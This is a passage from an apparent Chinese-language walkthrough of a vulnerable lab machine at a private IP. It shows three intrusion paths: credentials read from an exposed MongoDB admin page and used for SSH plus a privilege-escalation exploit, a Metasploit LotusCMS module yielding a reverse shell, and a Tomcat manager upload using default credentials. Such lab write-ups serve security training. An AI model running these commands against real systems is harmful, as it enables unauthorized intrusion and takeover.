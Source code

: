 
比较卡，或者在界面多点击几次后等待会出现creds选项：
http://192.168.253.135/mongoadmin/index.php?db=credentials&action=listRows&collection=creds

发现：
[username] => typhoon
[password] => 789456123

ssh typhoon@192.168.253.135
lsb_release -a
发现是：ubuntu 14.04
也是和上面一样对应37292提权即可！



--------------------------------------------
--------------------------------------------
6、攻击路径四：LotusCMS漏洞利用

LotusCMS将最前沿的设计和设计集成到了最被忽视的CMS生态位之一-无数据库Web设计和开发中。LotusCMS是免费的，而不仅仅是免费的，它是根据“通用公共许可证”授权的，根据该许可证，您可以复制，更改和重新分发此软件以满足您的需求！


访问cms点击login：
http://192.168.253.135/cms/index.php?system=Admin

msfconsole
search lcms
use exploit/multi/http/lcms_php_exec
set rhosts 192.168.253.135
set rport 80
set uri /cms/
run
成功拿到反弹shell！



--------------------------------------------
--------------------------------------------
6、攻击路径五：Tomcat漏洞利用（exp）

Tomcat是一个应用服务器。他可以运行你按照J2EE中的Servlet规范编写好的Java程序。
简单的说它是一个Web网站的运行容器，把你写好的网站放进去就可以运行。


http://192.168.253.135:8080

发现是tomcat7的站，直接点击manager使用默认登录：
tomcat
tomcat


msfconsole
use exploit/multi/http/tomcat_mgr_upload
set HttpUsername tomcat
set HttpPassword tomcat
set rhosts 192.168.253.135
set rport 8080
run
